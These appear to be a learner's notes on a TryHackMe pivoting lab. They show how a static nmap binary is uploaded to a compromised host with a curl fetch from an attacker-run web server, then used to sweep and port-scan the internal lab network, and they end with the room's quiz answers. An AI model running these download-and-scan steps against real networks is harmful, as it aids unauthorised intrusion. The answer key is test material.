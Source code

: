 It's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing.

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

`sudo python3 -m http.server 80`

Then, on the target:

`curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME`

![[Enumeration-20241212150151042.webp]]

---

Now use the binary to scan the network. The command will look something like this:

`./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME`

You will need to substitute in your username, and the correct IP range. For example:

`./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle`

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.  

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).  

Use what you've learnt to answer the following questions!

> [!Note]
>The host ending in `.250`is the OpenVPN server, and should be excluded from all answers. It is not part of the vulnerable network, and should not be targeted. The same goes for the host ending in `.1` (part of the AWS infrastructure used to create the network) -- this too is out of scope and should be excluded from all answers.



---

# Your job
After downloading nmap to the attacking machine:

- Rename nmap:
	`cp nmap nmap-KAIROS`

- On Kali (inside the directory containing your Nmap binary):

	`sudo python3 -m http.server 80`

- Then, on the target:
	- root@prod-serv ~]# `cd /tmp`
	- root@prod-serv tmp]# `./nmap-KAIROS -sn 10.200.84.1-255 -oN scan-KAIROS`
	![[Enumeration-20241212151823782.webp]]

There are the following valid IPs:

`10.200.84.100`
`10.200.84.150`

- Scan the machines.
- root@prod-serv tmp]# `./nmap-KAIROS 10.200.84.100`
	![[Enumeration-20241214142632468.webp]]
- root@prod-serv tmp]# `./nmap-KAIROS -p-15000 -T5 10.200.84.150`

	![[Enumeration-20241214142537599.webp]]


---

> [!question]
> 1. Excluding the out of scope hosts, and the current host (`.200`), how many hosts were discovered active on the network? 
> `2`
> 2. In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)
> `100,150`
> 3. Scan the hosts -- which one does _not_ return a status of "filtered" for every port (submit the last octet only)?  
> `150`
> 4. Let's assume that the other host is inaccessible from our current position in the network. Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?  
> `80,3389,5985`
> 5. We cannot currently perform a service detection scan on the target without first setting up a proxy, so for the time being, let's assume that the services Nmap has identified based on their port number are accurate. (Please feel free to experiment with other scan types through a proxy after completing the pivoting section). Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?
> `HTTP`

Now that we have an idea about the other hosts on the network, we can start looking at some of the tools and techniques we could use to access them!

**Next step:** [[Pivoting]]


